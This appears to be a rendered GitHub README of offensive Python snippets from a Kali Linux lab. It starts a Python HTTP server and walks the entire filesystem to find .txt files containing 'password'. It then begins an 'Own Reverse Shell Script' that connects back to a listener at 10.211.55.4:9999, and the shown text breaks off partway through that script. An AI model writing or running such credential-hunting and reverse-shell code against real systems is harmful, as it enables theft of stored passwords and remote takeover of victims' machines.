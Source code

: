`sudo python3 -m http.server 88`

![-parallels@kali-linux-2021-1--[~Desktop]](-parallels@kali-linux-2021-1--[~Desktop].png)


## List all .txt on Desktop

```
import glob, os
os.chdir("/home/parallels/Desktop/")
for file in glob.glob("*.txt"):
    print(file)
```

## Print all .txt files on System

```
import os
for root, dirs, files in os.walk("/"):
    for file in files:
        if file.endswith(".txt"):
            print(os.path.join(root, file))
```

## Print Path of all .txt which contains 'password'

```
import os
for root, dirs, files in os.walk("/"):
    for file in files:
        if file.endswith(".txt"):
            with open(os.path.join(root, file)) as f:
                if 'password' in f.read():
                    print(os.path.join(root, file))
```





## Own Reverse Shell Script

```
import socket as socket
import subprocess as subprocess
import os as os

# Create a socket
def socket_create():
    try:
         global host
         global port
         global s
         host = "10.211.55.4"
         port = 9999
         s = socket.socket()
    except s.error as msg:
        print("Socket creation error: " + str(msg))


# Connect to remote socket
def socket_connect():
    try:
        global host
        global port
        global s
```